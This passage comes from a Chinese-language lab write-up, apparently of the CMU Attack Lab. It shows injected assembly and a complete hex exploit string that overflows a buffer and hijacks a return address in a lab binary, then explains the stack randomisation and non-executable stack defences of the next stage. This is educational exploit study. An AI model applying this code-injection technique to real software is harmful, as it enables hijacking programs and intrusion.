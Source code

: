 汇编代码为：
```
mov $0x5561dcb8,%rdi
pushq $0x4018fa
ret
```

构造字符串为：

```
48 c7 c7 b8 
dc 61 55 68 
fa 18 40 00 
c3 00 00 00 
35 39 62 39 
39 37 66 61 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
78 dc 61 55
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
35 39 62 39
39 37 66 61
00 00 00 00
```

运行程序：

![Screen Shot 2017-05-21 at 16.19.59](/images/2017-7-9/Screen%20Shot%202017-05-21%20at%2016.19.59.png)

成功！

## 第四阶段

从第四阶段开始，我们要对 `rtarget` 进行缓冲区攻击。但是攻击 `rtarget` 要更加困难，因为它采用了两种方法来防止缓冲区攻击：

1. 栈的内容是随机的，每次运行时，栈中内容的地址都不一样。所以我们无法决定应该跳转的地址。
2. 栈中代码是不可以执行的，所以即使我们可以跳转到注入代码，程序也会遇到段错误。
